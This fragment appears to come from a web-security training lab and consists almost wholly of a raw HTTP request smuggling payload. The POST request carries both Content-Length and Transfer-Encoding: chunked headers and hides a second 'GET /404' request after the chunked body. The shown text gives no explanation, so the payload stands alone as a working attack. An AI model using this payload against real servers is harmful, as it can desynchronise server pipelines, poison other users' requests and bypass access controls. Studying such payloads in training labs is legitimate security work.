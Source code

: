 ```

POST / HTTP/1.1
Host: ac491f8c1fc99226c06d5636006b004f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x






